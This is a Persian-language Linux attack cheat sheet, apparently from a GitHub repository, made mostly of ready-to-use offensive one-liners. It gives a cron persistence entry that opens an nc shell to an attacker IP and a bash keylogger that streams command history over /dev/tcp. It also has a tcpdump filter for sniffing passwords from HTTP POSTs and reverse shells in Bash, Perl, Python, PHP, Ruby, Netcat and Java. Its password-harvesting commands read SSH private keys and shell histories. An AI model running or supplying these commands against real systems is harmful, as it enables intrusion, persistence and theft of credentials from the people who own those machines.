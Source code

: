 # لینوکس TTPs:

## یک لاینر برای اضافه کردن مقاومت روی جعبه از طریق Cron:

```
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

در ترمینال تایپ کنید: ```nc -lvp 1234```

## Nmap تمام رابط هارا که به آی پی متصل شده است را اسکن میکند

```
ifconfig -a | grep -Po '\b(?!255)(?:\d{1,3}\.){3}(?!255)\d{1,3}\b' | xargs nmap -A -p0-
```

## Bash Keylogger (رمز و کلید خوان):

```PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'```

## شناسایی برای یک دستگاه مشخص قبل از اینکه خوانده شود:

```
sudo tcpdump 'ether host XX:XX:XX:XX:XX:XX' -i en0 -vnt > CheckScan.txt |  tee CheckScan.txt | grep --line-buffered pattern | ( while read -r line; do sudo nmap -sV -n -T4 -O2 -oX NMAPScan.xml; rm CheckScan.txt; done; ) &
```
## استخراخ پسورد از طریق درخواست HTTP POST:

```
sudo tcpdump -s 0 -A -n -l | egrep -i "POST /|pwd=|passwd=|password=|Host:"
```
## استفاده از ابزار BPF جهت شناسایی اطلاعات DNS:

```
# All queries
tcpdump -nt 'dst port 53 and udp[10] & 0x80 = 0'

# All responses
tcpdump -nt 'src port 53 and udp[10] & 0x80 = 0x80'
```

## فایل های مهم:

```
/boot/vmlinuz : The Linux Kernel file.
/dev/had : Device file for the first IDE HDD (Hard Disk Drive) /dev/hdc : Device file for the IDE Cdrom, commonly
/dev/null : A pseudo device
/etc/bashrc : System defaults and aliases used by bash shell. /etc/crontab : Cron run commands on a predefined time Interval. /etc/exports : Information of the file system available on network. /etc/fstab : Information of Disk Drive and their mount point. /etc/group : Information of Security Group.
/etc/grub.conf : grub bootloader configuration file.
/etc/init.d : Service startup Script.
/etc/lilo.conf : lilo bootloader configuration file.
/etc/hosts : Information on IP's and corresponding hostnames. /etc/hosts.allow : Hosts allowed access to services on local host. /etc/host.deny : Hosts denied access to services on local host. /etc/inittab : INIT process and interactions at various run level. /etc/issue : Allows to edit the pre-login message. /etc/modules.conf : Configuration files for system modules. /etc/motd : Message Of The Day
/etc/mtab : Currently mounted blocks information.
/etc/passwd : System users with password hash redacted. /etc/printcap : Printer Information
/etc/profile : Bash shell defaults
/etc/profile.d : Application script, executed after login. /etc/rc.d : Information about run level specific script. /etc/rc.d/init.d : Run Level Initialisation Script. /etc/resolv.conf : Domain Name Servers (DNS) being used by System. /etc/securetty : Terminal List, where root login is possible. /etc/shadow : System users with password hash.
/etc/skel : Script that populates new user home directory. /etc/termcap : ASCII file defines the behavior of Terminal. /etc/X11 : Configuration files of X-window System.
/usr/bin : Normal user executable commands.
/usr/bin/X11 : Binaries of X windows System.
/usr/include : Contains include files used by ‘c‘ program. /usr/share : Shared directories of man files, info files, etc. /usr/lib : Library files required during program compilation. /usr/sbin : Commands for Super User, for System Administration. /proc/cpuinfo : CPU Information
/proc/filesystems : File-system information being used currently. /proc/interrupts : Information about the current interrupts. /proc/ioports : All Input/Output addresses used by devices. /proc/meminfo : Memory Usages Information.
/proc/modules : Currently used kernel module.
/proc/mount : Mounted File-system Information.
/proc/stat : Detailed Statistics of the current System. /proc/swaps : Swap File Information.
/version : Linux Version Information.
/var/log/auth* : Log of authorization login attempts. /var/log/lastlog : Log of last boot process.
```

# Reverse Shells:

## Bash:

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PERL:

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby:

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat:

```
nc -e /bin/sh 10.0.0.1 1234
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Password Harvesting (استخراج پسورد):

پسورد ها امکان دارند در مکان های زیادی یافت شوند

```
# لیست پروسه

user@victim $ ps -efw

# یوزرنیم هایی که به صورت اشتباهی در قسمت ورود به سیستم وارد شدند

user@victim $ last -f /var/log/bmtp

# یوزرنیم هایی که در قسمت متغییر هر فرمان وارد شدند

user@victim $ cat /home/*/.*history

# پسورد هایی که در فایل های وب ذخیره شدند

user@victim $ grep -iR password /var/www

# SSH کلید های

user@victim $ cat /home/*/.ssh/id*
```

## اکانت های غیر معمولی:

به دایرکتوری /etc/passwd برای اکانت های جدید که در لیست ردیف شده اند سر بزنید.

```
user@RoseSecurity $ sort -nk3 -t: /etc/passwd | less
```

در جستجوی یوزر هایی که شامل UID از عدد 0 هستند باشید:

```
user@RoseSecurity $ grep :0: /etc/passwd
```

# Routers:

منابع:

```
 https://www.routerpasswords.com
```

